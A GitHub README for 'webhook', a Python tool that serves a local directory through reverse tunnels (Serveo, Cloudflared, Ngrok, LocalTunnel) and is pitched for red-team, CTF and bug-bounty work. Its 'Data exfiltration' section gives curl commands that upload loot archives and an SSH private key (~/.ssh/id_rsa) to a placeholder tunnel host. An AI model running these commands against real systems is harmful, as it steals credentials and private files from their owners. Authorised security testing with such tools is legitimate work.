 <h2 align="center">
  🪝 Webhook Server Tunnel
</h2>


 
<p align="center">
    <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FSearchToolkit">
        <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fwebhook&label=Visitors&countColor=%2337d67a" />
    </a>
    <a href="https://www.facebook.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.buymeacoffee.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Buy%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black" alt="Buy Me a Coffee">
    </a>  
    <a href="mailto:ehph@proton.me">
      <img src="https://img.shields.io/badge/ProtonMail-6001D2?style=for-the-badge&logo=protonmail&logoColor=white" alt="ProtonMail">
    </a>
    <a href="https://github.com/l0n3m4n/SearchToolkit/blob/main/assets/contributing.md">
      <img src="https://img.shields.io/badge/Contribute-%23121011.svg?style=for-the-badge&logo=github&logoColor=white" alt="GitHub">
  </a>
</p>
<br/>

This Python script serves a local directory over HTTP and exposes it securely to the internet via a reverse tunnel using either:

- Serveo (SSH-based tunneling)
- Cloudflared (Cloudflare Tunnel)

It’s especially useful for:

- 📁 Hosting payloads or exploits during red team exercises or CTFs
- 📤 Exfiltrating data from compromised targets in a controlled environment via (`https`)
- 🧪 Testing XSS, CSRF, and SSRF vulnerabilities by exposing local endpoints
- 🌐 Simulating external servers during bug bounty engagements
- 💻 Demonstrating proof-of-concepts (PoCs) for file uploads or callbacks
- 🔐 Secure remote access to localhost web apps for testing
- 📡 Bypassing NAT/firewall restrictions without port forwarding

---

## 🚀 Features

- HTTP server using Python's built-in modules
- Logs all request headers to `headers.log`
- Expose server via:
  - 🌐 [Serveo](https://serveo.net)
  - ☁️ [Cloudflared](https://developers.cloudflare.com/cloudflare-one/)
- ANSI-colored terminal output
- Easy to use CLI

---

## 🚀 Banner  
```bash
 python3 webhook.py -h

     .->    (`-')  _<-.(`-')  (`-').->                      <-.(`-')  
 (`(`-')/`) ( OO).-/ __( OO)  (OO )__      .->        .->    __( OO)  
,-`( OO).',(,------.'-'---.\ ,--. ,'-'(`-')----. (`-')----. '-'. ,--. 
|  |\\  |  | |  .---'| .-. (/ |  | |  |( OO).-.  '( OO).-.  '|  .'   / 
|  | '.|  |(|  '--. | '-' `.)|  `-'  |( _) | |  |( _) | |  ||      /) 
|  |.'.|  | |  .--' | /`'.  ||  .-.  | \\|  |)|  | \\|  |)|  ||  .   '  
|   ,'.   | |  `---.| '--'  /|  | |  |  '  '-'  '  '  '-'  '|  |\\   \\ 
`--'   '--' `------'`------' `--' `--'   `-----'    `-----' `--' '--' 
     Author: l0n3m4n | Version: 1.1.3 | Tunneling local Server 

usage: webhook.py [-h] [-p PORT] [-d DIRECTORY] (--serveo | --cloudflared | --ngrok | --localtunnel)
                  [--exiftool]

📡 Serve a local directory and expose it via a tunnel (Serveo, Cloudflared, Ngrok, LocalTunnel).

options:
  -h, --help            show this help message and exit
  -p, --port PORT       Local port to serve (default: 80)
  -d, --directory DIRECTORY
                        Directory to serve (default: current dir)
  --serveo              Use Serveo tunnel
  --cloudflared         Use Cloudflared tunnel
  --ngrok               Use Ngrok tunnel
  --localtunnel         Use LocalTunnel tunnel
  --exiftool            Use ExifTool for metadata extraction


    Examples:                                                                                         
      python3 webhook.py -p 8080 --serveo --exiftool                                        
      python3 webhook.py -p 80 -d /var/www/html --cloudflared                                          
      python3 webhook.py -p 3000 -d ~/my-site --ngrok                                                 
      python3 webhook.py -p 8080 -d ~/my-site --localtunnel 
```

## 🛠 Requirements

  - Python 3.6+
  - Internet access (for tunnels)
  - At least one tunneling tool installed:
      * Serveo (via SSH)
      * cloudflared (fallback if Serveo fails)
      * ngrok (optional)
      * localtunnel (optional)
      * exiftool

---

## 📦 Installation

```bash
# Clone the repo
git clone https://github.com/l0n3m4n/webhook.git
cd webhook 
pip install -r requirements.txt --break-system-packages

# Make it executable
chmod +x webhook.py 
```

## 🐧 Kali linux (debian,ubuntu)
```bash
# system update
sudo apt update

# dependencies
sudo apt install -y curl gnupg lsb-release

# Add Cloudflare's GPG key
curl -fsSL https://pkg.cloudflare.com/cloudflare-main.gpg | sudo gpg --dearmor -o /usr/share/keyrings/cloudflare-main.gpg

# Add the Cloudflare apt repository
echo "deb [signed-by=/usr/share/keyrings/cloudflare-main.gpg] https://pkg.cloudflare.com/cloudflared $(lsb_release -cs) main" | sudo tee /etc/apt/sources.list.d/cloudflared.list

# Update apt again and Install
sudo apt update && sudo apt install cloudflared -y 
```
## 📡 Usage
```bash
sudo python3 webhook.py -p 8080 --serveo -d /var/www/html
```
![usage](assets/usage.png)
![output](assets/output.png)
![status_codes](assets/status_codes.png)
![headers_log](assets/headers_logs.png)
 

## 🔁 Data exfiltration
```bash
curl -X POST http://abc123.cloudflaretunnel.com/upload --data-binary "@loot.zip"

curl -F "file=@/home/user/.ssh/id_rsa" https://abc123.cloudflareTunnel.com/upload

tar czf secrets.tar.gz ~/Documents/secrets
curl -F "file=@secrets.tar.gz" https://abc123.cloudflareTunnel.com/upload

```

## 🔐 Security Notes
- This tool uses SSH for Serveo and a reverse proxy for Cloudflared.
- Ensure you trust any services you expose publicly.

## ✅ TODO List

### 🔌 Tunnel Providers
- [x] Add support for multiple tunneling services:
  - [x] `Serveo`
  - [x] `Cloudflared`
  - [x] `Ngrok`
  - [x] `LocalTunnel`
- [x] Add CLI flags for selecting tunnel provider (e.g., `--serveo`, `--cloudflared`, `--ngrok`)
- [x] Auto-detect and install missing binaries (e.g., `ngrok`, `cloudflared`)

### 🌐 Server Features
- [x] Display public tunnel URL clearly
- [x] Serve files from a specified directory
- [x] Web-based directory listing with download buttons
- [x] File upload support for data exfiltration
- [x] Log incoming HTTP requests (IP, User-Agent, Time)

### ⏱️ Control & Automation
- [ ] Implement auto-shutdown timer
- [ ] Auto-reconnect/restart tunnels on failure
- [ ] Add password protection for server access

### 🧪 Exploitation Helpers
- [ ] Generate payload templates:
  - [ ] XSS (DOM, Reflected, Stored)
  - [ ] CSRF Proof of Concept
  - [ ] LFI/RFI test cases
  - [ ] SSRF test URLs
- [ ] Webhook listener module (e.g., for Blind XSS or SSRF detection)
- [ ] Integrate with Interactsh or Burp Collaborator

### 🛠️ Developer Tools
- [ ] Proxy chaining to local tools like Burp Suite
- [ ] Optional local logging
- [ ] QR code generator for public URLs
- [x] CLI output beautification (colors, banners, progress indicators)

---

> Contributions and suggestions are welcome!

